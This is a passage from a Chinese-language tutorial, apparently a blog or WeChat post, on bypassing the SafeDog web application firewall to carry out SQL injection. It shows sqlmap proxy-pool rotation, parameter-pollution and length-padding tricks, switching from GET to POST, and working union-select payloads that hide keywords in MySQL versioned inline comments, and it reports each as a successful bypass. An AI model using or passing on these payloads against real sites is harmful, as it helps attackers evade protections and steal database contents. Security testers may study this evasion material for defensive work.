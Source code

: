 ![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHsibbsqQpNt4ZplCwUwF7C5joL0qBAFjINnMy3PDEtPpJS1861bukibz8w/640?wx_fmt=png)  

*   运行脚本，成功 bypass
    

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHsX4nGuygLNDzwzWWFKtLzHSeKiaL3fBwxCa63kqqRicI5REBucA7WPuxA/640?wx_fmt=png)

ps：sqlmap 使用代理池 IP：将 IP 保存在 1.txt 里面，使用–proxy-file="c:\\1.txt" 参数进行代理 IP 切换

**四、手工注入**
----------

**1\. 参数污染**

①注释、空字符、内联注释、脏数据、单行注释、换行符等污染

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHstKvLcg6sv4icCnD99255msFQtY7ZFjoVV8ffAZpPzub3oGXyVHib4CAQ/640?wx_fmt=png)  

```
access+asp空格：  %0a %0d %09 %20 + 

```

②长度污染：waf 拦截长度有一定的限制，一般用与 post 提交的时候，使用垃圾字符提交内容导致内存溢出：

```
%%&%%%%%%%%%%%%%%%%%%%%%%%%%%0a
id=1&id=1&id=1&id=1&id=1&id=1&id=1 and 1=1

```

③变换提交方式（服务器支持 post、cookie 传参）

*   直接 get 提交被安全狗拦截：
    

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHsOiaJhZ45wWCtv8BpNKpQJo5qoJaYILTJ0snN6wokw7XVxutTic0ibibqOw/640?wx_fmt=png)  

*   变换为 post 提交方式成功 bypass：
    

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHsspGpBEl3kzTBtSP4Xkm2UJNNtNhVjspvNZ3AdZ9xtIJNlLUrHPvXVA/640?wx_fmt=png)  

**2\. 实例：六条语句 bypass 安全狗**

环境：安全狗 4.0 IIS 版本 + mysql 5.4+IIS 7.5

**第一种：特殊数字 + 内敛注释**

```
#在1-55000之间找特殊数字，这个数字表示数据库版本。数据库是4.45.09以上版本该语句才会被执行
id=-1%20union%20/\*!44509select\*/%201,2,3%23
id=-1%20union%20/\*!44509select\*/%201,%23x%0A/\*!database\*/(),3%23

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHsrQkOwyeEUK0hicjFjLKARGcyY4NiaTaicicWRnLf3yjXvnEcBCcticMqiaGw/640?wx_fmt=png)

ps：我发现在这个区间只要带 44 的数字都不拦截，不知道这是不是一枚彩蛋。
